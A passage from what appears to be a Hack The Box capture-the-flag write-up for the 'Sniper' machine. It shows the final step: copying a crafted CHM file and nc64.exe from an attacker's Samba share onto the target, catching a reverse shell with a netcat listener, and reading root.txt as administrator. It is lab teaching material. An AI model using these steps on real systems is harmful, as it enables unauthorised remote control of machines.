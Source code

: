 
### Shell

Now I’ll move the result back to my Kali VM, into the Samba share, and then
copy it over to Sniper:

    
    
    C:\Docs>copy \\10.10.14.6\share\doc.chm .
            1 file(s) copied.
    

I’ll copy `nc64.exe` over as well:

    
    
    C:\Docs>copy \\10.10.14.6\share\nc64.exe \windows\system32\spool\drivers\color\
            1 file(s) copied.  
    

In less than a minute:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:57228.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    sniper\administrator
    

And then I can grab `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    5624caf3************************
    

[Beyond Root »](/2020/04/09/htb-sniper-beyondroot.html)

[](/2020/03/28/htb-sniper.html)

